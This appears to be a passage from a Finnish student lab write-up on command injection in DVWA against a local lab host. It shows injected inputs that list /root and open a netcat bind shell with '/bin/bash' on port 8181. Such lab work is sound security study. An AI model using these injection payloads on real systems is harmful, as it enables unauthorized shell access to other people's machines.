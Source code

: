 Komento ajetaan msfadmin -käyttäjällä! Mitä kaikkea tällä voikaan tehdä?

`192.168.56.101 | ls -la /root`:

![](./img/dvwa-exec-04.png)


Voikohan tätä kautta saada suoran shell-yhteyden? Joudun hieman lukemaan kuinka tämä voitaisiin toteuttaa. Luen sivustolta https://patchthenet.com/articles/create-bind-and-reverse-shells-using-netcat/ netcatin käyttämisestä tähän tarkoitukseen. 

Päätän hyökätä komennolla `192.168.56.101 |  nc -e ‘/bin/bash’ -l -p 8181`.

nc = netcat. Netcat on ohjelmisto tcp- ja udp-yhteyksien käsittelyn (https://fi.wikipedia.org/wiki/Netcat)
